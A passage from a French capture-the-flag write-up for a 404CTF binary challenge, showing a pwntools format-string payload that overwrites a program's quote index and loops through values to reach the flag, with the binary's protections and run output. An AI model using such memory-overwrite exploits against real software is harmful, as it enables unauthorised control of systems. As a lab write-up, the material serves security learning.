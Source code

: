 ```txt
    -- Gandhi

1: Lire une citation
2: Ecrire sur le livre
3: Compter le nombre de citations
4: Fermer le livre
>>> $ 1
La vie est un mystère qu'il faut vivre, et non un problème à résoudre.
    -- Gandhi
```
Super! Maintenant il ne nous reste plus qu'à trouver la dernière citation pour avoir le flag, pour celà j'y suis allé un peu à tatons vu qu'il n'y avait pas de moyen apparent de trouver le nombre exact de citations dans le fichier. J'ai itérer avec une valeur de `chosen_index` décroissante jusqu'à tomber sur la valeur équivalent à la dernière citation:

```python

chosen_index = 0x004be130
num_quote_val = 0xffffffff

i = 80400
while True:
    chosen_index_val = i
    val = num_quote_val << 32 | chosen_index_val


    write_fmt(pwn.fmtstr_payload(fmtstr_buffer_offset, {chosen_index : val}))
    citation = read_citation().decode("utf-8")
    if "404" in citation:
        pwn.log.success(citation)
        break
    pwn.log.info(f"{i} : {citation}")
    i -= 1
io.interactive()
```

```
python3 stage_1.py HOST=CHALLENGES.404CTF.FR PORT=31719
[*] '/home/kali/Desktop/404_Heap/citation'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib64/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to CHALLENGES.404CTF.FR on port 31719: Done
[*] 80400 : 
    1: Lire une citation
[*] 80399 : 
    1: Lire une citation
...
[*] 80326 : 
    1: Lire une citation
```